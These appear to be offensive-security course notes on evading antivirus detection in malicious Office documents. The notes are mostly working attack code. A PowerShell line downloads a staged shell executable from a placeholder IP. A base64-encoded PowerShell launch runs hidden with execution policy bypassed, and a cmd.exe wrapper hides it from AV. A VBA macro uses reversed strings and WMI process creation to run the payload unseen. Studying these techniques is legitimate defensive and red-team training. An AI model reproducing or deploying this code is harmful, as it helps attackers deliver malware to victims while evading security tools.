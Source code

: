 Advanced Malicious Document Technique. Order of reading articles:
1. [MS Office File Formats](https://medium.com/walmartglobaltech/ms-office-file-formats-advanced-malicious-document-maldoc-techniques-b5f948950fdf)
2. [Evasive VBA](https://medium.com/walmartglobaltech/evasive-vba-advanced-maldoc-techniques-1365e9373f80)

This document describes the elements in Download Powershell that are susceptible to being flagged by AV -> Base64 Encode + Concat string, ...
Equivalent section: Detection of PowerShell Shellcode Runner

Consider again the code from Module 3 that used PowerShell without encryption

```powershell
# 'Net.WebClient' Class in .NET framework
(New-Object System.Net.WebClient).DownloadFile('http://IP/staged_shell.exe','C:\Windows\Temp\staged_shell.exe')

# Base64 Encoding in PowerShell
[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes("Powershell_Command"))

# Using this command to execute remote PowerShell command
powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc BASE64_ENCODING
```

One method is to call **cmd.exe /c powershell.exe** instead of calling **powershell.exe** directly. For e.g

```
C:\Users\Admin>cmd.exe /c powershell.exe "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACcAaAB0AHQAcAA6AC8AL ... AGUAeABlACcA"
```

The other method is obfuscate every possible part of the VBA

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*4MXez2F-8PvJdhaYwFbSkQ.png)

Equivalent section 6.6.2 Dechaining with WMI + 6.6.3 Obfuscating VBA. Là thay thế hàm thực thi `Shell, $Shell` bằng WMI và obfuscate

```vb
Function randomnam6789(cows)
	randomnam6789 = StrReverse(cows)
End Function

Sub Mymacro()
	Dim strArg As String
	strArg = randomnam6789(" POWERSHELL_ENCODE REVERSED STRINGS ")
	GetObject(randomnam6789(":stmgmniw")).Get(randomnam6789("ssecorP_23niW")).Create strArg, Null, Null, pid
End Sub
```

3. [VBA Stomping](https://medium.com/walmartglobaltech/vba-stomping-advanced-maldoc-techniques-612c484ab278) 

